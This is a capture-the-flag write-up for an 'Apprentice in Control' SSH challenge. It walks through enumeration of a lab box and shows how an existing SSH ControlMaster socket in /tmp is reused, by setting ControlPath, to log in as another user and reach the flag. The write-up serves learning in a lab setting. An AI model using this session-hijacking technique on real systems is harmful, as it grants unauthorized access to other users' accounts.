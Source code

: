 Apprentice in Control
===

By DisplayGFX

IWC Pre-DEFCON Challenge

For this, we have to ssh into a box.

## Initial Enumeration

Here, we land in a user's home directory.

```bash
dev@node-cafe:~$ ls -la
total 32
drwxr-x--- 1 dev  dev  4096 Aug  1 02:01 .
drwxr-xr-x 1 root root 4096 Jul 31 17:30 ..
-rw------- 1 dev  dev    29 Jul 31 17:30 .bash_history
-rw-r--r-- 1 dev  dev   220 Jul 31 17:30 .bash_logout
-rw-r--r-- 1 dev  dev  3771 Jul 31 17:30 .bashrc
-rw-r--r-- 1 dev  dev   807 Jul 31 17:30 .profile
drwx------ 2 dev  dev  4096 Aug  1 02:01 .ssh
dev@node-cafe:~$ 
```

lets read some of the files.

```bash
dev@node-cafe:~$ cat .bash_history 
r00k wuz h3r3
man ssh_config
```

Well, that's interesting. There is a ton in `ssh_config`, which you can read [here](https://linux.die.net/man/5/ssh_config)

But, lets keep enumerating. What about the files in `/tmp`

```bash
dev@node-cafe:~$ ls -la /tmp
total 8
drwxrwxrwt 1 root root 4096 Aug  1 02:01 .
drwxr-xr-x 1 root root 4096 Aug  1 02:01 ..
srw------- 1 dev  dev     0 Aug  1 02:01 sock
```
Huh, what's this file?

well, if we look at `ps aux`, we can see a program is using this file.
```bash
dev@node-cafe:~/.ssh$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   4324  3200 ?        Ss   02:01   0:00 /bin/bash /root/entry.sh
root          19  0.0  0.0  11140  1460 ?        Ss   02:01   0:00 nginx: master process /usr/sbin/nginx
www-data      20  0.0  0.0  11508  2740 ?        S    02:01   0:00 nginx: worker process
www-data      21  0.0  0.0  11508  2740 ?        S    02:01   0:00 nginx: worker process
www-data      22  0.0  0.0  11508  2740 ?        S    02:01   0:00 nginx: worker process
www-data      23  0.0  0.0  11508  2612 ?        S    02:01   0:00 nginx: worker process
dev           24  0.0  0.0   4588  3968 pts/0    Ss   02:01   0:00 /bin/bash
root          41  0.0  0.0  12016  3976 ?        Ss   02:01   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root          47  0.0  0.0  12516  6412 ?        Ss   02:01   0:00 sshd: admin [priv]
dev           51  0.0  0.0  12016  3628 ?        Ss   02:01   0:00 ssh: /tmp/sock [mux]
admin         61  0.0  0.0  12776  6092 ?        S    02:01   0:00 sshd: admin@notty
root          65  0.0  0.0   2728  1536 ?        S    02:01   0:00 tail -f /dev/null
dev          100  0.0  0.0   7888  4096 pts/0    R+   02:34   0:00 ps aux
```
Well, this is pretty indicative of it being used by ssh.

## SSH

Looking through the options of ssh, we can find this bit of data.

> **ControlMaster**  
Enables the sharing of multiple sessions over a single network connection. When set to ''yes'', **[ssh](https://linux.die.net/man/1/ssh)**(1) will listen for connections on a control socket specified using the **ControlPath** argument. Additional sessions can connect to this socket using the same **ControlPath** with **ControlMaster** set to ''no'' (the default). These sessions will try to reuse the master instance's network connection rather than initiating new ones, but will fall back to connecting normally if the control socket does not exist, or is not listening.

So, if we set the ControlPath to this file, we can use it. this can easily be done with `echo "ControlPath /tmp/sock" > ~/.ssh/config`

however, we still need a username. Looking at /etc/ssh might give us an answer

```bash
dev@node-cafe:~/.ssh$ ls -la /etc/ssh
total 656
drwxr-xr-x 4 root root   4096 Jul 31 17:30 .
drwxr-xr-x 1 root root   4096 Aug  1 02:01 ..
-rw-r--r-- 1 root root 620042 Jul  9 11:31 moduli
-rw-r--r-- 1 root root   1649 Jul  9 11:31 ssh_config
drwxr-xr-x 2 root root   4096 Jul  9 11:31 ssh_config.d
-rw------- 1 root root    513 Jul 31 17:30 ssh_host_ecdsa_key
-rw-r--r-- 1 root root    182 Jul 31 17:30 ssh_host_ecdsa_key.pub
-rw------- 1 root root    411 Jul 31 17:30 ssh_host_ed25519_key
-rw-r--r-- 1 root root    102 Jul 31 17:30 ssh_host_ed25519_key.pub
-rw------- 1 root root   2610 Jul 31 17:30 ssh_host_rsa_key
-rw-r--r-- 1 root root    574 Jul 31 17:30 ssh_host_rsa_key.pub
-rw-r--r-- 1 root root   3275 Jul 31 17:30 sshd_config
drwxr-xr-x 2 root root   4096 Jul  9 11:31 sshd_config.d
dev@node-cafe:~/.ssh$ tail /etc/ssh/sshd_config
# override default of no subsystems
Subsystem       sftp    /usr/lib/openssh/sftp-server

# Example of overriding settings on a per-user basis
#Match User anoncvs
#       X11Forwarding no
#       AllowTcpForwarding no
#       PermitTTY no
#       ForceCommand cvs server
AllowUsers dev admin
```

We can just try the following command. `ssh admin`

And then, in the root directory, we get the flag!